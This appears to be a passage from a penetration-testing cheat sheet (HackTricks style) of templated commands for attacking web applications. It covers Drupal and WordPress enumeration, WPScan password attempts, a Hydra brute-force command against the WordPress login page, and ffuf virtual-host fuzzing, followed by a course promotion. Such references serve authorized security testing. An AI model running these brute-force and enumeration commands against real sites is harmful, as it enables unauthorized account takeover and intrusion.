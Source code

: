 ```
Entry_9:
Name: Drupal
Description: Drupal Enumeration Notes
Note: |
git clone https://github.com/immunIT/drupwn.git for low hanging fruit and git clone https://github.com/droope/droopescan.git for deeper enumeration

Entry_10:
Name: WordPress
Description: WordPress Enumeration with WPScan
Command: |
?What is the location of the wp-login.php? Example: /Yeet/cannon/wp-login.php
wpscan --url {Web_Proto}://{IP}{1} --enumerate ap,at,cb,dbe && wpscan --url {Web_Proto}://{IP}{1} --enumerate u,tt,t,vp --passwords {Big_Passwordlist} -e

Entry_11:
Name: WordPress Hydra Brute Force
Description: Need User (admin is default)
Command: hydra -l admin -P {Big_Passwordlist} {IP} -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

Entry_12:
Name: Ffuf Vhost
Description: Simple Scan with Ffuf for discovering additional vhosts
Command: ffuf -w {Subdomain_List}:FUZZ -u {Web_Proto}://{Domain_Name} -H "Host:FUZZ.{Domain_Name}" -c -mc all {Ffuf_Filters}
```

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
